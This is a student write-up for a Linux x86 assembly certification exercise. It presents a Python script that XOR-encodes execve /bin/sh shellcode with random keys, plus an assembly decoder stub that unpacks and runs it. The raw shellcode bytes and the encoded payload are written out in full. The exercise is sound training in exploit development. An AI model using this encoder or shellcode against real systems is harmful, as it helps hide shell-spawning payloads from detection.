




# SLAE Exam Blog Posts

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certifiation:

https://www.pentesteracademy.com/course?id=3

Student ID: PA-31074

[All Assignments](../Readme.md)
____

</br>

# Assignment 4
For the fourth assignment I need to solve the following tasks:
* Create a custom encoding scheme like the "Insertion Encoder" we showed you
* PoC with using execve-stack as the shellcode to encode with your schema and execute
___

</br>

## Encoder in Python
First I had to thing about an encoding scheme. I wanted to XOR the whole Shellcode but with different keys. So my idea was the following:
The encoder generates a random number from 2 to 6. This number is the key for the XOR operation and tells also how many blocks of the shellcode are XORed with this key. Because this number is needed for decoding it has to be added to the shellcode. For this the number is substracted from 0xFF and the result of this substraction is saved in front of the XORed block with this number. At the end of the actual shellcode I added two NOPs and 0xaa 0xbb for the identifying end of our shellcode.

To demonstrate you the process of the decoding I show you on byte level what happens in the first steps:

I am using the execve-stack shellcode: </br>
    \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80 </br>
    </br>
First the ending bytes (2x Nops + 0xaa +0xbb) are added to the shellcode at the end for later identifying the end of the decrypted shellcode:
    \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80\x90\x90\xaa\xbb </br>
</br>
The python script first generates a random value. In the first loop it generates 2 as a random number which will be substracted from 0xFF so the resulting byte is 0xfd what is added before the XORed blocks. </br>
--> Resulting shellcode: 0xfd </br>
</br>
Then it will encrypt / XOR the next 2 bytes of the shellcode with 0x02 which results in the following shellcode: </br>
--> Resulting shellcode: 0xfd, 0x33, 0xc2 </br>
</br>
In the next iteration of the loop the random number 6 is generated. So it will add 0xff-0x06=0xf9 as the next byte and xor the following byte of the old shellcode with 0x06. </br>
--> Resulting shellcode: 0xfd, 0x33, 0xc2, 0xf9, 0x56, 0x6e, 0x29, 0x29, 0x75, 0x6e </br>
</br>
This goes on until the last byte of the old shellcode was XORed. </br>
--> Resulting shellcode: 0xfd, 0x33, 0xc2, 0xf9, 0x56, 0x6e, 0x29, 0x29, 0x75, 0x6e, 0xfa, 0x6d, 0x2a, 0x67, 0x6c, 0x6b, 0xfc, 0x8a, 0xe0, 0x53, 0xfd, 0x8b, 0xe0, 0xfc, 0x50, 0x8a, 0xe2, 0xf9, 0xb6, 0xd, 0xcb, 0x86, 0x96, 0x96, 0xfd, 0xa8, 0xb9

The script what is exactliy doing this operations is looking like this:
``` python
#!/usr/bin/python3
import random

#execve-stsack shellcode
shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
#costum ending
shellcode += b"\x90\x90\xaa\xbb"

newShellcode = bytearray()
shellcodePos = 0

#loop until whole shellcode is encoded
while shellcodePos < len(shellcode):
    # when less then 6 bytes are left then --> random Value = difference 
    if len(shellcode)- shellcodePos < 6:
        randomValue = len(shellcode) - shellcodePos
    #otherwise set a random value between from 2 to 6
    else:
        randomValue = random.randint(2,6)
    #for later decryption the random value is needed so save 0xff - value to the shellcode
    newShellcode.append(0xff-randomValue)
    #encrypt/XOR with this value the next bytes (amount of bytes to XOR = random value)
    for i in range(0, randomValue):
        newShellcode.append(bytearray(shellcode)[shellcodePos] ^ randomValue)
        #indexer for the old shellcode
        shellcodePos +=1

shellstring = ""
#format the encoded bytearray to the format for nasm
for i in newShellcode:
    shellstring+=hex(i) + ", "
if "00" in shellstring:
  print("There was a null byte found in the shellcode. Please change shellcode or rerun!")
print(shellstring)
```
You can verify this in the output of the python script:


## Decoder in Assembly
Now there is a decoder required which will revert all the encoder activities.
To do so we just add our encoded shellcode and use the JMP CALL POP technice to get the address of our encoded shellcode and pop this to esi. Also all the registers will be cleared.
``` assembly
_start:
    jmp short call_shellcode

decoder:
    pop esi    
    xor ebx, ebx
    xor ecx, ecx   
    xor edx, edx

call_shellcode:
    call decoder
    EncodedShellcode: db 0xfd, 0x33, 0xc2, 0xf9, 0x56, 0x6e, 0x29, 0x29, 0x75, 0x6e, 0xfa, 0x6d, 0x2a, 0x67, 0x6c, 0x6b, 0xfc, 0x8a, 0xe0, 0x53, 0xfd, 0x8b, 0xe0, 0xfc, 0x50, 0x8a, 0xe2, 0xf9, 0xb6, 0xd, 0xcb, 0x86, 0x96, 0x96, 0xfd, 0xa8, 0xb9
```

I first cleared the bh register by moving 0xff in and increase it by 1 to only clear a single part of the ebx register.
Because we sustracted the random value from 0xff we have to load this first in a register, in this case in al. Then we substract the value at the next postion which is esi+ecx. ECX is in my code used to specify the index of the byte which is the next to be XORed. 
``` assembly
decode:
	mov bh, 0xff
	inc bh
	xor eax, eax
    mov al, 0xff
    sub al, byte [esi+ecx]
``` 
Then we have to go on to the next byte which means increasing ecx by 1. Also beacuse we only XOR the amount of bytes which is the value of the random value we have to compare bh and al. Al as earlier explained is the random value we used and bh is a local variable which specified how many times we used this random value to xor. If these are equal it's required to read the next randomValue what means to jump to the top to alias decode.
If this is not the case we move the byte into the bl register and xor it with the random value (al). Then this byte is loaded to esi+edx which is the next byte after the last decrypted/XORed byte. Edx specifies the index of the decryptede shellcode and where the next encryptede byte should be placed.
``` assembly
randomRound:
	inc ecx
	cmp bh, al
	jz short decode
	
	mov bl, [esi+ecx]
	xor bl, al
	mov byte[esi+edx], bl
``` 
Then we'll have to check if our last 4 decrypteed bytes are the end value of our shellcode which are 2 Nops and 0xaa and 0xbb which is 0xbbaa9090. If this is the case we jump the EncodedShellcode which is now our shellcode in decrypted format.
If we are not finished we increase edx and bh and jump to the next randomNumber and take the next XORed bytes and XOR it.

``` assembly
    cmp dword [esi + edx -3], 0xbbaa9090
    jz short EncodedShellcode
    
    inc edx
    inc bh
    jmp short randomRound
```

When I first run it I was having a Segmantation Fault. When checking in GDB I identified that the error was in the mov operation:



If we chack vmmap we see that we have no write permission for this text section we want to write our decoded shellcode:



So I found out that I have to add the --omagic flag to the ld command in the [compile.sh](compile.sh) file and when compiling the [C file](insertionEncoder.c) it's requiered to pass the -omagic flag which is then finally working as you can see in the following picture:




## Whole Assembly code
``` assembly
global _start
section .text

_start:                                 ;jmp call pop
    jmp short call_shellcode

decoder:
    pop esi    
    xor ebx, ebx                        ;bh = how many blocks are already decrypted with the random value, bl = for loading, XORing and storing bytes
    xor ecx, ecx                        ;ecx is index of the encrypted shellcode
    xor edx, edx

decode:
	mov bh, 0xff
	inc bh                              ;setting only bh register to 0
	xor eax, eax                        ;setting eax to 0
    mov al, 0xff                        ;storing 0xff in al
    sub al, byte [esi+ecx]              ;substracting 0xff - randomValueByteEncrypted = used random value

randomRound:
	inc ecx                             ;increase index of encrypted shellcode because we decrypted last byte (shellcode or random number)
	cmp bh, al                          ;if we already XORed the amount of bytes what our randomValue says
	jz short decode                     ;we have to get the next randomValue and job to the top
                                        ;if not:
	mov bl, [esi+ecx]                   ;load the next encrypted byte to the bl register
	xor bl, al                          ;xor bl with the random value
	mov byte[esi+edx], bl               ;store the xored byte at the following position of the last stored and xored byte

    cmp dword [esi + edx -3], 0xbbaa9090    ;check if the last 4 bytes are the defined ending
    jz short EncodedShellcode               ;then execute decoded shellcode
    
    inc edx                                 
    inc bh
    jmp short randomRound

call_shellcode:
    call decoder                    
                                            ;encoded shellcode from the python script output                          
    EncodedShellcode: db 0xfd, 0x33, 0xc2, 0xf9, 0x56, 0x6e, 0x29, 0x29, 0x75, 0x6e, 0xfa, 0x6d, 0x2a, 0x67, 0x6c, 0x6b, 0xfc, 0x8a, 0xe0, 0x53, 0xfd, 0x8b, 0xe0, 0xfc, 0x50, 0x8a, 0xe2, 0xf9, 0xb6, 0xd, 0xcb, 0x86, 0x96, 0x96, 0xfd, 0xa8, 0xb9
```